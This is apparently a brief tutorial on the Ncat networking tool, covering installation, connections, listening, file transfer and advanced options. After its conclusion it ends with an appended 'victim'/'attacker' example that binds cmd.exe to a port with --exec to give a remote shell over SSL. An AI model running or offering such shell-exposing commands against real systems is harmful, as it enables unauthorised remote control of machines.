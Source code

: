 Ncat is a powerful networking utility that is included in the Nmap suite. It is a feature-rich tool that can be used for various purposes, such as port scanning, banner grabbing, and creating network connections.

### Installation

To install Ncat on Linux, you can use the package manager of your distribution. For example, on Debian-based systems, you can use the following command:

```
sudo apt-get install nmap
```

### Basic Usage

Ncat can be used to establish TCP and UDP connections, listen for incoming connections, and transfer data between hosts. Here are some basic examples:

- To connect to a remote host on a specific port:

```
ncat <host> <port>
```

- To listen for incoming connections on a specific port:

```
ncat -l <port>
```

- To transfer a file from one host to another:

```
ncat -l <port> > file.txt
```

```
ncat <host> <port> < file.txt
```

### Advanced Usage

Ncat supports various options and features that can be used to perform more advanced tasks. Some of these include:

- SSL/TLS encryption: Ncat can encrypt the communication between hosts using SSL/TLS protocols.

- Proxy support: Ncat can be used as a proxy server to forward connections to other hosts.

- Port forwarding: Ncat can forward connections from one port to another, allowing you to access services running on remote hosts.

- Scripting: Ncat supports Lua scripting, which allows you to automate tasks and create custom behaviors.

### Conclusion

Ncat is a versatile networking utility that can be used for a wide range of tasks. Whether you need to establish network connections, transfer data, or perform advanced tasks, Ncat provides the necessary tools and features.
```bash
victim> ncat --exec cmd.exe --allow 10.0.0.4 -vnl 4444 --ssl
attacker> ncat -v 10.0.0.22 4444 --ssl
```